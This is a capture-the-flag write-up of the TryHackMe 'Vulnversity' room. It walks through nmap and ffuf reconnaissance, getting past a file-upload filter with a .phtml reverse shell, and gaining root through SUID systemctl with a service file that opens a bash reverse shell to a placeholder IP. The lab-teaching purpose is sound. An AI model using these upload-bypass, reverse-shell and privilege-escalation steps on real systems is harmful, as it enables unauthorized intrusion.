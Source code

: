 ```yaml
---
title: Vulnversity Writeup - TryHackMe
published: 2023-08-10
description: 'A walkthrough of the Vulnversity room on TryHackMe, covering active reconnaissance, web application exploitation, and privilege escalation.'
image: './cover.jpg'
tags: [TryHackMe, Enumeration , PrivEsc]
category: 'TryHackMe'
draft: false
---
```


# Vulnversity

This room is based on active recon, web app attacks, and privilege escalation.

---

## Task 1: Deployment

The first and most important task is to deploy the machine. Once it's live, the vulnerable machine IP is assigned. All other tasks are performed on it. You can also increase the machine time if needed.

---

## Task 2: Reconnaissance

We begin by scanning the target machine using [nmap](https://nmap.org).

### Common Nmap Commands

![nmap command flags](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XCqHfPYf1oUfOJTHxXJGPQ.png)

### Nmap Scan Result

```bash
nmap -sC -sV -A -oN initial <machine IP>
````

![nmap result](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*8HIov1lHtIRkAtYvUkQnRg.png)

**Key Observations:**

* 6 ports are open.
* Squid version 3.5.12 is running.
* OS is Ubuntu.
* A web server is running on port 3333.

Additional answers:

* `-p-400` scans the first 400 ports.
* `-n` disables DNS resolution.


:::tip
If we don't specify any port and scan technique by default nmap will perform scan on the most common 1,000 ports for each protocol and Perform default -sS SCAN TECHNIQUES.
:::

## Task 3: Locating Directories Using FFUF

This task involves directory enumeration. Although the room mentions `gobuster`, we’ll use `ffuf`.

### FFUF Command

```bash
ffuf -u http://<machine IP>:3333/FUZZ -w <wordlist path>
```

![ffuf commands](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*ldKH4NkrEblOUjQo-1kq7Q.png)

### FFUF Results

![ffuf result](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*dK4MCCmb1DaaG2dP_D0Wjw.png)

We found `/internal` which contains a file upload form.

---

## Task 4: Compromising the Web Server

Trying to upload a `.php` file gives this error:

![upload error](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*7k9v_MSQJ9VhX_gV7LLUSw.png)

### How to Bypass?

Use BurpSuite’s **Intruder** to fuzz extensions. Try these:

* `.php`, `.php3`, `.php4`, `.php5`, `.phtml`

![burpsuite intruder](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*J_clNurX4VFMaZQf7j3AyQ.png)

Paste the extensions into the payload.

![extension list](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*FFzF1omQDDGSPDXJtgiMqg.png)

`.phtml` is accepted as it returns a different response size:

![different response](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Q-kcKOIjBs_yUWS4XHyotA.png)

Upload a reverse shell as `rev.phtml`:

![upload success](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Jxdx8TTXjAD_mxWRxlob_A.png)

Start a listener with:

```bash
nc -lvnp 4444
```

Click the uploaded file and get a shell:

![reverse shell](https://miro.medium.com/v2/resize\:fit:876/format\:webp/1*0RJ_r0pOFwhSyfoEjC89fA.png)

Check user info:

![user info](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*atOmdqitXMGdsKKOW66L1Q.png)

### User Flag

![user flag](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*uxEp7u6HqNdjTuVW3mfsMg.png)

**Key Takeaways:**

* `.php` is blocked, but `.phtml` is allowed.
* Username is `bill`.
* Found user flag.

---

## Task 5: Privilege Escalation

Check for SUID binaries:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

We find `/bin/systemctl`:

![systemctl suid](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*UODqcAkpEvUDhKW5fQrpfw.png)

### Exploit with GTFOBins

Reference: [GTFOBins - systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Modified service file:

```bash
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/4445 0>&1'
RemainAfterExit=yes
[Install]
WantedBy=multi-user.target
```

![exploit code](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*KV0jma8tjYUgvZd3h9MC_Q.png)

Host it with:

```bash
python3 -m http.server 80
```

![http server](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*laOxvz_xLcCQh8iUTQYHvQ.png)

Download it on the target:

```bash
wget http://<your-ip>/root.service
```

![wget file](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Mq1Zq6H0qWXoytgRuBlaEg.png)

Run the service:

```bash
systemctl link /home/bill/root.service
systemctl enable root.service
systemctl start root.service
```

![systemctl start](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*EHQjCvL2lOd4HD2aClWZsA.png)

Catch the root shell:

![root shell](https://miro.medium.com/v2/resize\:fit:1248/format\:webp/1*DofM3IUgoCvVJa8rTJnEpA.png)

### Root Flag

During the privilege escalation phase, `/bin/systemctl` was identified as an unusual SUID binary. Exploiting it allowed us to escalate privileges and access the root shell.

The root flag obtained is:

```
a5...d5
```


